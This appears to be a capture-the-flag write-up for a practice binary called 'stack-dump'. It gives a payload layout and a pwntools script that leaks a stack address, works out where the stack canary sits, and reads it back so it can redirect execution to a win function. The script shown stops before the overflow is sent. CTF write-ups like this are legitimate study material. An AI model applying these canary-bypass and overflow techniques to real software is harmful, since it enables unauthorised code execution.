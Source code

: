and create payload

padding + le_can + padding_to_ret_addr + win_addr
56 + canary + 24 + 8

Script/Command used
------------------

```
from pwn import *
import re

PROGRAM_PATH = (Path(__file__).parent / "stack-dump").resolve().__str__()
FRAME_SIZE = 0x58
BUFF_SIZE = 56
STACK_TO_RBP = 24
# now ADD eight bytes for the return address
OFFSET_TO_CANARY = 65  # 0x41
win_addr = p64(0x4012F6, "little")


gdb_script = """
b *main
b *loop+70
b *loop+281
c
"""


# FullPath
print(f"Program path is: {PROGRAM_PATH}")
print("____________________________________")


# TODO: Add the ip address here later!
def start(argv=[], *a, **kwargs):
    if args.GDB:
        return gdb.debug([PROGRAM_PATH] + argv, gdbscript=gdb_script, *a, **kwargs)
    elif args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kwargs)
    else:
        return process([PROGRAM_PATH] + argv, *a, **kwargs)


io = start()
res = io.recvlinesS(1)
print("____________________________________")
print(res)
print("____________________________________")
res = io.recvlinesS(1)
matched = re.search(r"0x[0-9A-Fa-f]+", res[0])
leaked_addr = matched.group(0)
leaked_addr_int = int(leaked_addr, base=16)
print(f"Received address: {leaked_addr}")

canary_address = leaked_addr_int + OFFSET_TO_CANARY
print(f"Canary address calculated at:  {hex(canary_address)}")
print("____________________________________")

io.sendline(b"i")
io.sendline(p64(canary_address) + b"\n")
io.sendline(b"D")
io.recvuntil(b"memory at " + hex(canary_address).encode("ascii") + b": ")


```